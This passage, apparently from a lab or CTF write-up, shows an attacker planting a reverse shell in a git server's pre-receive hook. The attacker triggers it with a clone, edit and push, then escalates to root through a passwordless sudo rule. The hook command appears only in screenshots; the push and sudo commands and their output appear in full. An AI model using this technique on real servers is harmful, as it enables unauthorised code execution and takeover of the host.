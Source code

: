 ![Untitled](Untitled%2014.png)

I can login successfully now without 2 factor Auth so lets enumerate further 🔽

![Untitled](Untitled%2015.png)

I opened this git Hook option and added the reverse shell command in ***pre-receive*** you can choose any option that will work just fine.

![Untitled](Untitled%2016.png)

Now I have to alter the data of this repository by clonning it then adding some changes in **README.md** file after that pushing back to its repo that will trigger my reverse shell like this .

```bash
git clone http://127.0.0.1:3000/Dylan/Test-Repo
cd Test-Repo/
echo "Reverse Shell Time \!" >> README.md
git add README.md
git commit -m "Modified README.md file"
git push
Username for 'http://127.0.0.1:3000': dylan
Password for 'http://dylan@127.0.0.1:3000': <PASSWORD>
Everything up-to-date
```
{: .nolineno}
{: .nolineno}

After executing the last part I would get the reverse shell triggered like this ⏬

![Untitled](Untitled%2017.png)

Reverse shell : 

![Untitled](Untitled%2018.png)

I checked its root prvileges and I got full access ⏬

```bash
/data/git $ sudo -l
User git may run the following commands on 42040a8f97fc:
    (ALL) NOPASSWD: ALL
/data/git $
```
{: .nolineno}
{: .nolineno}

So I am root now : 

```bash
/data/git $ sudo -s
whoami
root
/bin/bash -i
bash: cannot set terminal process group (16): Not a tty
bash: no job control in this shell
bash-5.0#
```
{: .nolineno}
{: .nolineno}
